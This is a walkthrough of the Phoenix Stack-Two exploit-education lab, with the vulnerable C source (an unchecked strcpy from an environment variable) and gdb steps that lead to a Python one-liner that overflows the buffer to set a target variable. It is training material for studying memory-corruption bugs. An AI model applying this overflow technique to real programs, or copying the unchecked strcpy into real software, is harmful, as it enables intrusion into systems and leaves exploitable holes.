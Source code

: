 ```yaml
---
title: Phoenix Stack-Two 
published: true
---
```


### 0x0. Introduction
For a full introduction to this series and setup description please look at the first post (Phoenix Stack-Zero and One).
In this level we have to mess with environment variables and unprintable ascii characters. Also instead of "gets" this program
uses "strcpy" to write to the buffer-variable. 

### 0x1. Taking a look at the source code

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  char *ptr;

  printf("%s\n", BANNER);

  ptr = getenv("ExploitEducation");
  if (ptr == NULL) {
    errx(1, "please set the ExploitEducation environment variable");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, ptr);

  if (locals.changeme == 0x0d0a090a) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n",
        locals.changeme);
  }

  exit(0);
}
```

The difference to Stack-one is that we have to set an environment variable named ExploitEducation as described here:

```c
ptr = getenv("ExploitEducation");
  if (ptr == NULL) {
    errx(1, "please set the ExploitEducation environment variable");
  }
```

and the value of this variable will be written into the buffer-variable. I'm going to quote the bugs section for "strcpy" here, it has essentially the same problem as "gets".

```
If the destination string of a strcpy() is not large enough, then  any‐
thing  might  happen.   Overflowing  fixed-length  string  buffers is a
favorite cracker technique for taking complete control of the  machine.
Any  time  a  program  reads  or copies data into a buffer, the program
first needs to check that there's enough space.  This may  be  unneces‐
sary  if you can show that overflow is impossible, but be careful: pro‐
grams can get changed over time, in ways that may make  the  impossible
possible.
```


### 0x2 Exploiting the program

Lets start by simply trying to execute the program

```bash
$ /opt/phoenix/amd64/stack-two 
Welcome to phoenix/stack-two, brought to you by https://exploit.education
stack-two: please set the ExploitEducation environment variable
```

There are multiple ways to set an environment variable but since we want to take a look at it in gdb anyway, lets do it there

```
$ gdb /opt/phoenix/amd64/stack-two
(gdb) set environment ExploitEducation Awesome
```

Once this is done you run the program (still inside gdb because changing environment variables in gdb has no effect outside of gdb)

```
(gdb) run
Starting program: /opt/phoenix/amd64/stack-two 
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x00000000, we want 0x0d0a090a
```

as you can see the prompt for setting the environment variable is gone. Now we need to figure out the right value for our ExploitEducation-variable.
First we need to know at what point exactly we start writing to the "changeme" variable. To accomplish that, use a very long and recognisable pattern.
I always suggest the alphabet. 

```
(gdb) set environment ExploitEducation AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZ
(gdb) run
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x51515151, we want 0x0d0a090
```

Since 0x51 is the hexadecimal equivalent to the letter Q, we know that we have to replace "QQQQ" with the correct input.  
The big problem here is that "0x0d0a090a" are non-printable characters thus we can't just append them to our alphabet string.
This took we quite some time to find a working solution and I would have liked to find a way to do it without leaving gdb but 
I could not.  
So here is my solution for this challenge setting the environment variable with our alphabet string followed by the hexadecimal value decoded in python:


```
$ export ExploitEducation=`python -c 'print "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP" + ("0a090a0d").decode("hex")'`
$ /opt/phoenix/amd64/stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```



